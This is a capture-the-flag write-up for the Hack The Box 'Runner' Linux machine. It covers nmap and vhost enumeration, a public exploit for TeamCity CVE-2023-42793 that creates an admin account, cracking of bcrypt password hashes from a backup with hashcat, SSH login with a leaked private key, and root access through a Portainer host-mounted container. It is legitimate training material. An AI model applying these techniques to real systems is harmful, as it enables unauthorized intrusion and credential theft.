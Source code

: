 <div style="display: flex; align-items: center;">
  <img src="https://labs.hackthebox.com/storage/avatars/029d258b4444bc4226b90b1f8f27d086.png" alt="Runner Machine Avatar" style="margin-right: 20px;" width="170"/>
  <div>
    <p style="font-size:35px;"><b>Runner</b></p>
    <p style="font-size:20px;">Linux • <font color="#fbaf3f">Medium</font></p>
  </div>
</div>

## Enumeration

We have the machine IP.\
Through an nmap scan we see the following:
```bash
$ nmap -p- -sV -sC -T4 10.10.11.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 05:46 EDT
Warning: 10.10.11.13 giving up on port because retransmission cap hit (6).
Nmap scan report for runner.htb (10.10.11.13)
Host is up (0.070s latency).
Not shown: 65397 closed tcp ports (conn-refused), 135 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
|_http-title: Runner - CI/CD Specialists
|_http-server-header: nginx/1.18.0 (Ubuntu)
8000/tcp open  nagios-nsca Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 874.45 seconds
```

We will also try some (sub)directory fuzzing.

I tried a few different wordlists, but I couldn't find anything.

The `runner.htb` website doesn't seem too interesting, only having a basic home page, though mentioning 2 employees, which might be useful sometime later.

So I tried using `cewl`:
```bash
$ cewl http://runner.htb -w wordlist.txt
```

```bash
$ gobuster vhost -u http://runner.htb -w wordlist.txt --append-domain           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://runner.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        wordlist.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: TeamCity.runner.htb Status: 401 [Size: 66]
Progress: 285 / 286 (99.65%)
===============================================================
Finished
===============================================================
```

## TeamCity web UI

Accessing the website, we are greeted with a login page:\
![TeamCity page](images/Runner-TeamCity-page.png) 

Online, we find `CVE-2023-42793`:
> In JetBrains TeamCity before 2023.05.4 authentication bypass leading to RCE on TeamCity Server was possible

We will be using [H454NSec's exploit](https://github.com/H454NSec/CVE-2023-42793) to create an admin user:
```bash
$ python3 CVE-2023-42793.py -u http://teamcity.runner.htb
```

In the admin panel, we find a `users` page which might be useful later:\
![users page in administration panel](images/Runner-TeamCity-users.png)

Along with that, we see the `backup` page:\
![backup page in administration panel](images/Runner-TeamCity-backup.png)

We see that creating a backup includes a database too! We create a backup, and download the `.zip` file.

## Cracked hashes

Inside we find this:
```
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1719857944579, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, admin.ilsp, $2a$07$5KCbvTBQB7Jtca6o067A9u/ZwAwlXonaA5d.5WLXA.r.szqHi/YDu, , admin.Ilsp@lol.omg, , BCRYPT
12, h454nsec1803, $2a$07$h2En.V5LkstbQAC/pYcJSu7mlNCn65CNn5Ax2/HZlsq3J7H4.x7jm, , "", 1719857991766, BCRYPT
```

We will try to crack these hashes.
```bash
$ hashcat -m 3200 -a 0 -o cracked.txt bcrypt_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to find Matthew's login credentials: `matthew:piper123`\
Trying to use the password to connect through ssh didn't seem to work.

## SSH

Looking some more around the files we find a private key in the config folder, and judging from a config file it looks like it's Matthew's! I tried to connect as Matthew using the private key, but that didn't seem to work, perhaps it's someone else's key.\
I tried using the username `john` (the admin name found earlier), and that finally worked!
```bash
$ chmod 600 id_rsa
$ ssh john@runner.htb -i id_rsa
```

We now find the user flag in our home directory.

## Looking around

I found `matthew` in the `/home` directory as well, but I couldn't switch user using the password I found.

Using `linpeas` I noticed this:\
![linpeas: Unexpected in /opt](images/Runner-linpeas-opt.png)

And then later also this:\
![linpeas: Hostname, hosts and DNS](images/Runner-linpeas-hostname-host-DNS.png)

## Portainer administration

Accessing `portainer-administration.runner.htb` from our machine we see this login page:\
![Portainer administration login page](images/Runner-portainer-admin-page.png)

This time looks like we could get to use Matthew's earlier found credentials!

Here we find our portainer version at the bottom of the page:\
![portainer version](images/Runner-portainer-version.png)

## Privilege Escalation

I found online [this article for privilege escalation in Portainer](https://rioasmara.com/2021/08/15/use-portainer-for-privilege-escalation/).

This article is from 2021, so it seems to be using an older version with a few different options than the "current" one we have here, but we'll make it work.

First of all, we need to create a Volume.

However `Path` was apparently not an acceptable value, so we will be using these options, as found [on a stackoverflow answer](https://stackoverflow.com/questions/71734166/mount-a-directory-from-docker-container-to-the-linux-ubuntu-host-machine):\
![Portainer: create volume](images/Runner-portainer-Volume.png)

We will be using this existing image:\
![Portainer: Images](images/Runner-portainer-Images.png)

Now we create our container:\
![Create container: name and image](images/Runner-portainer-Create-Container-1.png)

With the following options:\
![Create container: Advanced - Command and logging](images/Runner-portainer-Create-Container-2.png)\
![Create container: Advanced - Volumes](images/Runner-portainer-Create-Container-3.png)

We deploy our container, go to `console`, and connect to get root flag!

![root flag](images/Runner-portainer-root-flag.png)
